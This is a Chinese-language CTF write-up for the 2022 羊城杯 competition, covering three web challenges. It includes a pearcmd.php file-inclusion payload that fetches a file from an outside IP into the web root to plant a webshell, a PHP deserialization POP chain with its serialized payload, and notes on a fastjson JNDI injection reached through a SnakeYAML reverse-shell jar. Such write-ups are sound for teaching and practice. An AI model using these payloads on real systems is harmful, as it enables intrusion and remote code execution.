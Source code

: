 ```yaml
---
title: 2022 羊城杯 WP
date: 2022-09-05 09:16:40
tags: CTF比赛
categories: CTF比赛
summary: 2022 羊城杯 WP
---
```

# 2022 羊城杯 WP
- 感谢 Twe1v3 师傅的 WP！

## rce_me
先扫目录，扫出来一个类似于后门的东西

![rce_mePage](images/rce_mePage.png)

直接读根⽬录/flag，没有权限，应该是需要连⽊⻢提权

![rce_mePage](images/rce_meFailedFlag.png)

这里，思考到很有可能是文件包含的攻击手法，拿pearcmd.php去下载⽂件然后包含，过滤的字符串可以url编码绕过。

```payload
?file=/usr/local/lib/php/%70%65%61%72cmd.php&+download+http://101.43.255.238/1.txt
```

下载⽂件直接到web⽬录成功

![rce_mePage](images/rce_meGetShell.png)

## step_by_step-v3
pop链题⽬，这⾥应该是要跳到hint那⾥去绕过include_once包含⽂件，但是过滤很多，包含不进去，然后就看到 ($this->y1)(); 可以看phpinfo，结果flag直接出来了。

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
class yang
{
	public $y1;
}

class cheng

{

public $c1;

public function __wakeup()

{

$this->c1->flag = 'flag';

}
public function __invoke()

{

$this->c1->hint();
}
}
class bei
{
public $b1;
public $b2;
public function __set($k1,$k2)
{

 print $this->b1;
}

public function __call($n1,$n2)
{
echo $this->b1;
}
}
$c=new cheng();
$b=new bei();
$y=new yang();
$y1=new yang();
$c->c1=$b;
$b->b1=$y;
$y->y1="phpinfo";
print_r(serialize($c));
```

payload:

```payload
O:5:"cheng":1:{s:2:"c1";O:3:"bei":2:{s:2:"b1";O:4:"yang":1:{s:2:"y1";s:7:"phpinfo";}s:2:"b2";N;}}
```

![rce_mePage](images/popflag.png)

## simple_json
- 是一道比较有趣的 Java 题目

附件下载下来，看到 fastjson 版本是 1.2.83；查了一下这个版本的 fastjson 并无漏洞。

![rce_mePage](images/fastjsonVersion.png)

上网查了一下，1.2.80 的版本是有漏洞的，而且也和我们题目的情景一致：这是从何说起呢？

因为它的 Test 启动器里面明确写了，调用了 JndiService.java 这个类，这个类里面很明显存在一个 JNDI 注入，代码如下

```java
//  
// Source code recreated from a .class file by IntelliJ IDEA  
// (powered by FernFlower decompiler)  
//  
  
package ycb.simple_json.service;  
  
import com.alibaba.fastjson.annotation.JSONType;  
import javax.naming.Context;  
import javax.naming.InitialContext;  
import javax.naming.NamingException;  
  
@JSONType  
public class JNDIService {  
    private String target;  
 private Context context;  
  
 public JNDIService() {  
    }  
  
    public void setTarget(String target) {  
        this.target = target;  
 }  
  
    public Context getContext() throws NamingException {  
        if (this.context == null) {  
            this.context = new InitialContext();  
 }  
  
        this.context.lookup(this.target);  
 return this.context;  
 }  
}
```

而且这是一个 getter 方法，是满足 fastjson 的漏洞利用的，一开始看的 1.2.80 的漏洞是说，要求中国类，对应到题目里面就是 JNDIService 这个类继承一个能够抛出异常的类，比如 Exception，NamingException，结果 JNDIService 这个类并没有抛出异常，而是这个方法抛出异常了，用不了这个。

- 而且这个地方，不知道 jdk 版本如何，就默认是高版本的打了，有的师傅说这个用 snakeyaml 绕过，不知道是啥，先这里 mark 一下吧，也当作是收集一下 PoC

这里先用其他师傅的 WP 了

![rce_mePage](images/snakeYaml.png)

**构造恶意 jar：**

**https://github.com/artsploit/yaml-payload**


把里面命令执行的语句修改一下，改成自己的弹 shell

![rce_mePage](images/yamlPayload.png)

反弹shell

![rce_mePage](images/getshell.png)